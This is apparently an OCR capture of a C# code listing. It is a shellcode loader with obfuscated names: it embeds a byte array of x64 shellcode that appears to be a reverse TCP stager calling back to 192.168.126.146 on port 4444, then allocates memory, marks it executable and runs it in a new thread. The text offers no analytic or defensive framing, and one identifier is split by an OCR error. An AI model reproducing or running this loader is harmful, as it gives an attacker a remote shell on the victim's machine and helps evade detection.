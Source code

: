 ```cs

public yrDaTlg() {

byte[] QWKpWKhcs =

{0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,0x8b,
0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,
0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,
0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
0x49,0xbc,0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7e,0x92,0x41,0x54,0x49,0x89,0xe4,
0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,
0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,
0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,
0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,
0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,
0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);

Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);

IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTf wBS = IntPtr.Zero;

uint BnhanUiUJaetgy;

bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);

oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);

WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}

}
```
